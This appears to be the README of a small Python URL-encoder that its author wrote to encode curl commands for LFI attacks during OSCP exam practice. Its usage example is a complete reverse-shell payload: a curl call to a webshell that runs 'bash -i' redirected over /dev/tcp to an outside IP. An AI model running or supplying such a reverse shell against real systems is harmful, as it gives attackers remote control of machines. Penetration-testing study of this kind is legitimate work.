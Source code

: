 # URL-Encoder

Python script to URL encode a string/command.<br>
I made this to automate the process of encodng curl commands for LFI for the OSCP.<br>
Can either be used by specifying an argument, or will be prompted for user input if not specified.<br>

Ex: 
```
python3 url-encoder.py "curl http://root.me/webshell?cmd=bash -i >& /dev/tcp/10.0.0.1/8080 0>&1"
```

![alt text](image.png)
